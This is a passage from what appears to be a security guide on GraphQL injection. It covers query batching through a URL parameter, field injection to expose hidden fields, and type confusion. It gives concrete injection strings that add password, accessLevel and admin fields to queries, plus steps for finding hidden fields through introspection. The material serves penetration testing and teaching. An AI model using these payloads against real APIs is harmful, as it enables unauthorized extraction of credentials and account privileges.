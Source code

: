 **Injection Technique**:
```
# Vulnerable endpoint: /api/users?id=123

Normal: /api/users?id=123
Injected: /api/users?id=123) { email } q2:user(id:1
```

**Resulting Query**:
```graphql
query {
  user(id: 123) {
    email
  }
  q2:user(id:1) {  # ← Injected batch query
    email
    password      # Can add any field
    accessLevel
  }
}
```

**Use Case**: Brute force user IDs or enumerate all users

### Pattern 3: Field Injection

**Goal**: Access fields that aren't returned by default

**Technique**:
```
# URL: /api/user?fields=id,email
# Backend builds: user { id email }

Inject: id,email,password,accessLevel,admin

Resulting query:
user {
  id
  email
  password      # ← Injected!
  accessLevel   # ← Injected!
  admin         # ← Injected!
}
```

**How to Find Hidden Fields**:
1. Run introspection to see all fields on User type
2. Try injecting fields that exist but aren't normally shown
3. Common hidden fields: `password`, `accessLevel`, `role`, `admin`, `isAdmin`, `permissions`

### Pattern 4: Type Confusion / String vs Integer

**Vulnerable Pattern**:
```javascript
// Backend expects integer ID
query {
  user(id: 123) { email }
}

// But ID field is defined as String in schema
```
